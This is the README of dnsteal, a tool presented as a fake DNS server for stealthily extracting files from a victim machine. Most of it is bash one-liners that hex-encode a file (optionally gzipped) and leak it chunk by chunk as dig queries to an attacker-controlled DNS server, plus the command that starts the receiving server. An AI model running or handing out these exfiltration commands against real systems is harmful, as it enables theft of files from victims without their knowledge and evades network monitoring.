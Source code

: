 # dnsteal

This is a fake DNS server that allows you to stealthily extract files from a victim machine through DNS requests. 

Below is an image showing an example of how to use:

![Alt text](https://github.com/m57/dnsteal/blob/master/dns-exfil.PNG)

On the victim machine, you simply can do something like so:

```bash
for b in $(xxd -p file/to/send.png); do dig @server $b.fakedomain.com; done
```

It also supports compression of the file to allow for faster transfer speeds, this can be achieved using the "-z" switch:

```bash
python dnsteal.py 127.0.0.1 -z
```

Then on the victim machine send a Gzipped file like so:

```bash
for b in $(gzip -c file/to/send.png | xxd -p); do dig @program.ninja $b.domain.com; done
```

~x90
